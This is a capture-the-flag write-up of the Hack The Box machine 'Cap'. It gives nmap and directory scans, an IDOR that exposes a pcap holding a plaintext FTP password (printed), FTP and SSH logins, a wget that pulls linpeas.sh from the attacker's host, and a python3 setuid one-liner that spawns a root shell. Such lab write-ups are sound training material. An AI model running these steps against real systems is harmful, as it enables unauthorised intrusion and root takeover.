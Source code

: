 # HTB - Cap

#### Ip: 10.10.10.245
#### Name: Cap
#### Rating: Easy

----------------------------------------------------------------------

![Cap.png](../assets/cap_assets/Cap.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.245
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:52 CDT
Nmap scan report for 10.10.10.245
Host is up (0.075s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Lets now scan these open ports using both the `-sV` and `-sC` flags to enumerate versions and to use basic scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -sC -sV -T4 10.10.10.245 -p 21,22,80
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:56 CDT
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
```

Navigating to the site we see a security dashboard and we appear to be logged in a user Nathan.

![dashboard.png](../assets/cap_assets/dashboard.png)

Running a directory scan I find a few subdirectories:

```text
┌──(ryan㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.245 -q          
404      GET        4l       34w      232c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      389l     1065w    19386c http://10.10.10.245/
302      GET        4l       24w      208c http://10.10.10.245/data => http://10.10.10.245/
200      GET      355l     1055w    17446c http://10.10.10.245/ip
302      GET        4l       24w      220c http://10.10.10.245/capture => http://10.10.10.245/data/2
```

Interestingly, it looks like `/capture` is forwarding to `/data/2`. Lets check that out.

![capture.png](../assets/cap_assets/capture.png)

So looks like there is some packet capturing going on here, and I have the ability to download this .pcap file and inspect it.

After not finding anything interesting in `/2` I tested for an IDOR vulnerability navigated to `/0` and was able to download that file and open it in WireShark. This was a more robust file and after poking around a bit I found an FTP login from Nathan:

![wireshark.png](../assets/cap_assets/wireshark.png)


### Exploitation

nathan:Buck3tH4TF0RM3!

Cool, lets use these creds to login to FTP:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ftp 10.10.10.245                                  
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:ryan): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||22185|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 May 08 17:51 user.txt
226 Directory send OK.
```
Interesting, appears to be a `/home` directory. Lets grab the user.txt file, and then see what else we can do with these credentials:

```text
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49021|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************|    33       16.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.47 KiB/s)
ftp> bye
221 Goodbye.
```

![user_flag.png](../assets/cap_assets/user_flag.png)


Lets try using Nathan's credentials to login to SSH:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ssh nathan@10.10.10.245                       
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)
```
Nice, that worked! Let's try to escalate privileges to root now.

### Privilege Escalation

After manually checking out the box for a bit, nothing jumped out at me, so I started a Python webserver and transferred over LinPeas to further enumerate a privesc vector:

```text
nathan@cap:/tmp$ wget http://10.10.14.11/linpeas.sh
--2023-05-08 18:18:46--  http://10.10.14.11/linpeas.sh
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                      100%[====================================================>] 758.76K  1.19MB/s    in 0.6s    

2023-05-08 18:18:47 (1.19 MB/s) - ‘linpeas.sh’ saved [776967/776967]

nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh
```

Linpeas quickly finds a potential path:

![linpeas.png](../assets/cap_assets/linpeas.png)

Cool, this should make for an easy privilege escalation. We can exploit the setuid capability by using:

```text
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/tmp# whoami
root
```
And just like that we have root!

Lets grab the final flag:

![root_flag.png](../assets/cap_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------
